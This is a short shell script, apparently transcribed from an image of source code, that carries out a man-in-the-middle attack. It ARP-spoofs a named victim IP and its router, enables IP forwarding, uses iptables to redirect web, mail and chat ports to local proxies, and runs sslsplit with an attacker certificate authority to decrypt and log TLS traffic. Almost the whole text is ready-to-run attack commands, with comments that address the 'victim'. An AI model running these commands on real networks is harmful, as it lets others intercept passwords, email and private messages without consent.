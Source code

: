 # Tell the victim, I am the router.
sudo arpspoof -t 35.12.214.227 35.12.214.1
# Tell the router, I am the client.
sudo arpspoof -t 35.12.214.1 35.12.214.227

# Configure the iptables (make sure the victim can receive the packets)
sudo sysctl -w net.ipv4.ip_forward=1
sudo iptables -t nat -F
sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-ports 8080
sudo iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to-ports 8443
sudo iptables -t nat -A PREROUTING -p tcp --dport 587 -j REDIRECT --to-ports 8443
sudo iptables -t nat -A PREROUTING -p tcp --dport 465 -j REDIRECT --to-ports 8443
sudo iptables -t nat -A PREROUTING -p tcp --dport 993 -j REDIRECT --to-ports 8443
sudo iptables -t nat -A PREROUTING -p tcp --dport 5222 -j REDIRECT --to-ports 8080
# Start the ssl split (You should pre-create directory in /tmp folder)
sudo ./sslsplit -D -l connections.log -j /tmp/sslsplit/ -S /tmp/sslsplit/logdir/ -k cakey.pem -c cacert.pem ssl 0.0.0.0 8443 tcp 0.0.0.0 8080

# Ref: https://www.roe.ch/SSLsplit
# Ref: https://blog.heckel.xyz/2013/08/04/use-sslsplit-to-transparently-sniff-tls-ssl-connections/
